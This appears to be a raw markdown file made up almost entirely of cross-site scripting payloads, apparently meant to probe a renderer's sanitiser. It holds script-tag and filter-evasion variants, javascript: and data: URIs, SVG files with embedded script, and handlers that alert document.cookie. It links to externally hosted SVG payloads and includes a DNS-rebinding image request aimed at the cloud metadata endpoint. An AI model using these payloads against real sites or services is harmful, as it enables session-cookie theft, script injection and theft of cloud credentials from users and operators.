 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>
<a href="data:text/plain;base64,amF2YXNjcmlwdDphbGVydCgneHNzJyk=">Click data</a>
data:text/plain;base64,amF2YXNjcmlwdDphbGVydCgneHNzJyk=
https://special-garbanzo-7v7r6x5g5v4hpgpq-8080.app.github.dev/super.svg
<img src="https://gistpreview.github.io/?029781441a2d3737294741f2d6a4c821/image8.svg" onerror="eval('alert(document.cookie)')"/>
<IMG SRC="https://special-garbanzo-7v7r6x5g5v4hpgpq-8080.app.github.dev/super.svg">

<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
<--<img/src=%20onerror=confirm``>%20--!>
<select><noembed></select><script x='a@b'a>
y='a@b'//a@b%0a\u0061lert(1)</script x>

xss'''><iframe srcdoc='%26it;script>;prompt`
${document.domain}`%26it;/script>'>
<iframe src=data:text/html,%3Cscript%3Ealert%28%27hi%27%29%3B%3C%2Fscript%3E></iframe>
data:text/html,%3Cscript%3Ealert%28%27hi%27%29%3B%3C%2Fscript%3E


<sVg/onLy=1 onLoaD=confirm(1)//

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>

<svg><animate onbegin=evt.path.pop().alert(1) attributeName=x dur=1s>

<img/src=x onError="`${x}`;alert(`Ex.Mi`);">
<img src="https://7f000001.a9fea9fe.rbndr.us//latest/meta-data/" >



https://shell.cloud.google.com/?walkthrough_tutorial_url=https%3A%2F%2Fraw.githubusercontent.com%2Fgolang%2Ftour%2Fmaster%2Ftutorial%2Fweb-service-gin.md&pli=1&show=ide&environment_deployment=ide
